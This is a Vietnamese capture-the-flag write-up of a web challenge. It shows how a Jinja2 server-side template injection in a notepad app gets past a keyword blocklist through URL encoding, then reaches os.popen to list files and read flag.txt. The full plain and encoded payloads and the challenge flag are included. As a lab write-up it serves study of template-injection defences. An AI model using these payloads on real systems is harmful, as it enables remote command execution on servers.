




# Writeup Challenge “5571”

- **Category:** Web
- **Description:** *My friend got highest mark with this challenge, can you beat it :>*

Bài này cung cấp một web app NotePad đơn giản, cho phép người dùng nhập nội dung và để server render trực tiếp trên phía backend.

Trong source của challenge có một comment tiết lộ danh sách các literal bị chặn để ngăn người dùng chèn input độc hại.

## Bước 1 — Recon và kiểm tra ban đầu

Trong source có đoạn:

```html
<!--
BLOCKED_LITERALS = [
  '{', '}', '__', 'open', 'os', 'subprocess', 'import', 'eval', 'exec',
  'system', 'popen', 'builtins', 'globals', 'locals', 'getattr', 'setattr',
  'class', 'compile', 'inspect'
]
-->
```

Dấu hiệu này gợi ý rất mạnh đến lỗi **Server-Side Template Injection (SSTI)**, vì ứng dụng có vẻ đang dùng cú pháp template kiểu `{{ ... }}` nhưng lại chặn trực tiếp các token nguy hiểm.

Để kiểm tra, ta thử payload đơn giản:

```jinja2
{{7*7}}
```

Kết quả trả về:

```text
Error: Input blocked: literal token '{' not allowed. Try encoding.
Try encoding blocked tokens
```



Điều này cho thấy filter đang hoạt động. Tuy nhiên, vì hệ thống còn gợi ý *Try encoding*, nên ta có thể thử **URL encode** các ký tự bị chặn để bypass.

## Bước 2 — Encode payload

Ta encode `{{7*7}}` thành:

```text
%7b%7b7*7%7d%7d
```

Khi gửi payload này lên server, kết quả render là:

```text
49
```



Điều đó xác nhận rằng **SSTI thực sự tồn tại**, và backend đang evaluate biểu thức Jinja2 của chúng ta.

## Bước 3 — Leo thang lên thực thi lệnh

Sau khi xác định được đây là Jinja2 SSTI, ta có thể truy cập sâu hơn vào object context của template.

Một kỹ thuật phổ biến là lợi dụng object:

```python
self._TemplateReference__context.cycler
```

để lần tới `__globals__`, rồi truy cập module `os`.

Payload:

```jinja2
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
```

Sau khi URL encode:

```text
%7b%7b%73%65%6c%66%2e%5f%54%65%6d%70%6c%61%74%65%52%65%66%65%72%65%6e%63%65%5f%5f%63%6f%6e%74%65%78%74%2e%63%79%63%6c%65%72%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%2e%6f%73%2e%70%6f%70%65%6e%28%27%6c%73%27%29%2e%72%65%61%64%28%29%7d%7d
```



Kết quả trả về là danh sách file trên server, trong đó có `flag.txt`.

## Bước 4 — Đọc flag

Ta dùng lại cùng kỹ thuật, chỉ thay lệnh `ls` bằng lệnh đọc file:

```jinja2
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```

Payload sau khi encode:

```text
%7b%7b%73%65%6c%66%2e%5f%54%65%6d%70%6c%61%74%65%52%65%66%65%72%65%6e%63%65%5f%5f%63%6f%6e%74%65%78%74%2e%63%79%63%6c%65%72%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%2e%6f%73%2e%70%6f%70%65%6e%28%27%63%61%74%20%66%6c%61%67%2e%74%78%74%27%29%2e%72%65%61%64%28%29%7d%7d
```



## Flag

```text
v1t{n0th1ng_b34ts_url_ssti_9cfac8e6b8978e3f6037d9608fed7767}
```

## Kết luận

Lỗ hổng của bài là **SSTI trong Jinja2**. Dù backend có chặn blacklist một số literal như `{`, `}`, `os`, `popen`, `globals`... nhưng cách chặn này không đủ an toàn.

Điểm yếu nằm ở chỗ:

1. Input vẫn được decode trước khi render.
2. Filter blacklist có thể bị bypass bằng **URL encoding**.
3. Khi đã chui được vào Jinja2 context, ta có thể chain object để truy cập Python internals và thực thi lệnh hệ thống.
